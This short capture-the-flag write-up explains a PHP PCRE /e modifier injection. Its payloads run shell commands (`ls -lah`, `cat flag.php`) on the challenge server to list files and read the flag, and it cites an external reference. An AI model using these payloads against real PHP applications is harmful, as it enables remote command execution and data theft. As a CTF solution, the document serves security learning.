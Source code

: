 submit with
/^(.*)/e
`ls -lah`
xx

and get a flag with
/^(.*)/e
`cat flag.php`
xx

keyword:
Exploiting PHP PCRE Functions

ref:
http://www.madirish.net/402